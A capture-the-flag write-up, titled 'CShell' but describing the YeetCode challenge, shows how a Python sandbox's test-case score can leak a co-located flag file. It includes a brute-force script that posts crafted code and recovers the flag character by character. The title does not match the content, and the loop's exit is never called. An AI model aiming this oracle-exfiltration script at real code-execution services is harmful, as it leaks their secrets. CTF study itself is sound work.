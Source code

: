 # CShell - corCTF 2021

- Category: Pwn
- Points: 459
- Solves: 81
- Solved by: drw0if - hdesk

## Description

Brush up on your coding skills and ace your next interview with YeetCode! Flag is at ./flag.txt

[https://yeetcode.be.ax](https://yeetcode.be.ax)

## Solution

Opening the link we can see a text area in which we can write some Python code that is send to the backend that return a score of test cases passed.

So, most probably the code is executed in a sandbox.

Analizing the [source code](yeetcode.tar.xz) that was given in the challenge we can see that we were right, the code is executed in a `epicbox` sandbox:

```python
...

files = [{'name': 'flag.txt', 'content': flag.encode()}, {'name': 'code.py', 'content': code}]
limits = {'cputime': 1, 'memory': 16}
result = epicbox.run('python', command='python3', stdin=cmd, files=files, limits=limits)

...
```

With the file `code.py` that contains our code, we have a file named `flag.txt` that looks intresting.

From the source code we can se also that 2 of the 10 test cases are fixed:

```python
...

tests = [(2, 3, 5), (5, 7, 12)]
for _ in range(8):
    a, b = random.randint(1, 100), random.randint(1, 100)
    tests.append((a, b, a + b))

...
```

So, we can try to exfiltrate the flag character by character using the first test case with the following code:

```python
def f(a,b):
    char = ord(open('flag.txt', 'r').read()[§1§])
    return char - §2§ if a==2 and b==3 else -1
```

Where:
- `§1§`: position of the character tha we want;
- `§2§`: decimal value (minus 5) of the character with which we want to compare it.

If the result returned contains `"p": "1"` we find the character.

Now, the only thing to do is to iterate the process until we find the character `}`:

```python
import requests
from string import ascii_lowercase, digits

chars = ascii_lowercase + digits + '_-{}'
flag = ""

def send_req(index, rem):
    return requests.post('https://yeetcode.be.ax/yeetyeet', data="def f(a,b):\n\tchar=ord(open('flag.txt', 'r').read()[" + str(index) + "])\n\treturn char-" + str(rem) + " if a==2 and b==3 else -1").json()

x = len(flag)
while True:
    for i in chars:
        res = send_req(x, ord(i)-5)
        if(res['p'] == 1):
            flag += i
            print(flag)
            x += 1
            if flag[-1] == '}':
                exit
            break
```

**P.S.** This process is very slow, it can be optimized using together the first two test case and check two character at the same time.

## Flag

```
corctf{1m4g1n3_cp_g0lf_6a318dfe}
```